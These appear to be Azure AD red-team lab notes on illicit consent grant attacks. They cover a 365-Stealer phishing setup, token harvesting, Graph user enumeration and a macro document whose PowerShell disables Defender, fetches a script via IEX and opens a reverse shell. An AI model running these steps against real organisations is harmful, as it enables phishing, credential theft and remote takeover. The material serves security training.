# 05 - Concent, Permission and Initial Access Part 2

- [05 - Concent, Permission and Initial Access Part 2](#05---concent-permission-and-initial-access-part-2)
  - [Consent and Permissions](#consent-and-permissions)
  - [Consent and Permissions - Low Impact Permissions](#consent-and-permissions---low-impact-permissions)
  - [Initial Access - Illicit Consent Grant](#initial-access---illicit-consent-grant)
  - [Initial Access - Illicit Consent Grant - 365 Stealer](#initial-access---illicit-consent-grant---365-stealer)

---

## Consent and Permissions

  

Applications can ask users for permissions to access their data. For example, for basic sign-in.

If allowed, a normal user can grant consent only for "Low Impact" permissions. In all other cases, admin consent is required (an admin is notified over email).

GA, Application Administrator, Cloud Application Administrator and a custom role including '`permission to grant permissions to applications`' can provide tenantwide consent.

<br/>

Consent policies can be set for all users:

- Do not allow user consent
- Allow user consent for apps from verified publishers, for selected permissions - Only for "Low Impact" permissions for apps from same tenant and verified publisher
- Allow user consents for all apps - Allows consent for apps from other tenants and unverified publishers for Low Impact permissions
- Custom app consent policy

Note:
These are important; if the above policies are not set, the attack won't work!

<br/>

'`Allow user consent for all apps`' is interesting and abusable!

<br/>

---

## Consent and Permissions - Low Impact Permissions

Only the permissions that don't need admin consent can be classified as low impact.

Permissions required for basic sign-in are openid, profile, email, User.Read and offline_access.

That means, if an organization allows user consent for all apps, an employee can **grant consent to an app to read the above from their profile**. 

There are some very interesting low impact permissions. For example: `User.ReadBasic.All` that allows the app to read display name, first and last name, email address, open extensions and photo for all the users!

  


<br/>

---

## Initial Access - Illicit Consent Grant

  

<br/>

Register a Multitenant application `studentx` in `defcorpextcontractors` tenant. Provide the Redirect URI where you would like to receive tokens. In the lab, it will be the student VM https://172.16.151.X/login/authorized (or `172.16.150.X` or `172.16.152.X` depending on your location).

  

  

<br/>

Go to the '**Certificates & secrets**' blade and create new Client secret. 
- Copy the client secret before browsing away from the page.

  

  

<br/>

- Go to the 'API permissions' blade and add the following Delegated permissions for Microsoft Graph: 
  - user.read
  - User.ReadBasic.All

  


<br/>

Note: In case we want to use Access tokens, following config is required 
- In the 'Authentication' option of the studentx app, check 'Access tokens (used for implicit flows)' and click on 'Save'. 
- We will use Refresh token so no configuration is required.

<br/>

We have user privilege access to the defcorphq tenant. Check if users are allowed to consent to apps. Use Azure Portal or the below command from the **AzureAD Preview** module:

```
Import-Module C:\AzAD\Tools\AzureADPreview\AzureADPreview.psd1; $passwd = ConvertTo-SecureString "SuperVeryEasytoGuessPassword@1234" -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd); Connect-AzureAD -Credential $creds

(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```

If the output of above is `ManagePermissionGrantsForSelf.microsoftuser-default-legacy`, that means users can consent for all apps! In a real assessment, we simply need to try to know.

  

<br/>

---

## Initial Access - Illicit Consent Grant - 365 Stealer

We can use **365 stealer** to abuse the consent grant settings:
- https://github.com/AlteredSecurity/365-Stealer

<br/>

Note:
Please note that the attack can be executed using the **o365 toolkit** (https://github.com/mdsecactivebreach/o365-attack-toolkit).

<br/>

1. Run **xampp Control Panel** (Run as administrator) and start Apache on the student VM. 
2. Copy the '365-stealer' directory from `C:\AzAD\Tools` to `C:\xampp\htdocs` to capture tokens returned by Azure AD. 
3. Edit `365-Stealer.py`, in the config section and change `CLIENTID`, `REDIRECTURL` and `CLIENTSECRET`
4. Go to C:\xampp\htdocs\35-stealer directory and Start the 365-stealer

```
&"C:\Program Files\Python38\python.exe" C:\xampp\htdocs\365-Stealer\365-Stealer.py --run-app
```

  

<br/>

Then Browse to `https://localhost` using an incognito window and click on 'Read More' in the web page. This gives you the phishing link that is to be sent to the target.

  

  

<br/>

We need to find a way to send the link to targets. We can abuse applications that allow us to contact users in the target organization. We can find applications running on the `defcorphq` tenant by *sub-domain recon*.

  

  

The phishing link:
- `https://login.microsoftonline.com/common/oauth2/authorize?response_type=code&client_id=4aaa3d88-a3f6-43f0-8ef1-1bd9e043a3d0&scope=https%3A%2F%2Fgraph.microsoft.com%2F.default+openid+offline_access+&redirect_uri=https%3A%2F%2F172.16.152.190%2Flogin%2Fauthorized&response_mode=query&sso_reload=true`

<br/>

Use **MicroBurst** to find the applications. We can add permutations like career, hr, users, file, backup to the `permuations.txt` used by MicroBurst etc. However in this case it cannot identify the target application.

```
. C:\AzAD\Tools\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1; Invoke-EnumerateAzureSubDomains -Base defcorphq -Verbose
```

<br/>

Therefore, we will assume that the https://defcorphqcareer.azurewebsites.net application is known as a contractor may have some existing knowledge of the target.

<br/>

Using the 'Need Help' section of the career application running on defcorphq, send the phishing link.

https://login.microsoftonline.com/common/oauth2/authorize?response_type=code&client_id=dd84e18a-4b33-45c8-b36c-41ccb4624802&scope=https://graph.microsoft.com/.default+openid+offline_access+&redirect_uri=https://172.16.151.X/login/authorized&response_mode=query&sso_reload=true


- `response_type`: Must be "code" for authorization code flow (can be used to request access and refresh tokens)
- `client_id`: **Application ID** of the application that you registered (`NOT` the secret client ID!)
- `scope`: List for Microsoft Graph permissions
- `redirect_uri`: The redirect uri specified during app registration
- `response_mode`: "query" provides the code as query string parameter

  

<br/>

Wait for couple of minutes and browse to `http://localhost:82/365-Stealer/yourvictims/`  (please run xampp as admin and start the Apache service) on the attacking machine to get tokens for victims who click on the phishing link.


  

<br/>

Use the access token with the Graph API to list other users in the tenant. Note that only the permissions that we requested earlier are available with the access token. We can list all the users thanks to `User.ReadBasic.All`.

```
$Token = 'eyJ0eXAiOiJK...'
$URI = 'https://graph.microsoft.com/v1.0/users'

$RequestParams = @{
  Method = 'GET'
  Uri = $URI
  Headers = @{
    'Authorization'= "Bearer $Token"
  }

(Invoke-RestMethod @RequestParams).value
```

  

<br/>

We need to target an Application Administrator to grant consent for better permissions. Ideally, we have to target all the users. 

For the lab, we can use our earlier enumeration that Application Administrator role is assigned to `markdwalden@defcorphq.onmicrosoft.com`.

We need to register a new app (or modify existing one) and now request permissions that need admin consent:
- mail.read
- notes.read.all
- mailboxsettings.readwrite
- files.readwrite.all
- mail.send

  

<br/>

Generate a new link using 'Read More' on https://localhost and send an email to the user containing that link (Remember to change the client ID if you register a new application):

- https://login.microsoftonline.com/common/oauth2/authorize?response_type=code&client_id=2bed99c4-a6b0-4eb3-b080-8344ceb6d8a5&scope=https%3A%2F%2Fgraph.microsoft.com%2F.default+openid+offline_access+&redirect_uri=https%3A%2F%2F172.16.152.190%2Flogin%2Fauthorized&response_mode=query

Once the user simulation grants consent, we will get the access token of the application administrator.

  

  


<br/>

Using the access token of application administrator, we can use **365-stealer** to upload macro infested doc files to the user's OneDrive. The user simulation will open these macro infested word files and execute the macro.

A licensed version of Office 365 is available on 172.16.1.250 to create doc files:

```
$passwd = ConvertTo-SecureString "ForCreatingWordDocs@123" -AsPlainText -Force

$creds = New-Object System.Management.Automation.PSCredential ("office-vm\administrator", $passwd)

$officeVM = New-PSSession -ComputerName 172.16.1.250 -Credential $creds

Enter-PSSession -Session $officeVM

Set-MpPreference -DisableRealtimeMonitoring $true

IEX (New-Object Net.Webclient).downloadstring("http://172.16.150.x:82/Out-Word.ps1")


Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.x:82/Invoke-PowerShellTcp.ps1');reverse -Reverse -IPAddress 172.16.150.x -Port 4444" -OutputFile studentx.doc

Copy-Item -FromSession $officeVM -Path C:\Users\Administrator\Documents\studentx.doc -Destination C:\AzAD\Tools\studentx.doc
```

<br/>

Start a listener on the student VM. On the student VM, use **365-stealer** to upload the doc to OneDrive of `MarkDWalden@defcorphq.onmicrosoft.com`:

```
python C:\xampp\htdocs\365-Stealer\365-Stealer.py --upload C:\AzAD\Tools\studentx.doc --token-path C:\xampp\htdocs\365-Stealer\yourVictims\MarkDWalden@defcorphq.onmicrosoft.com\access_token.txt
```

<br/>

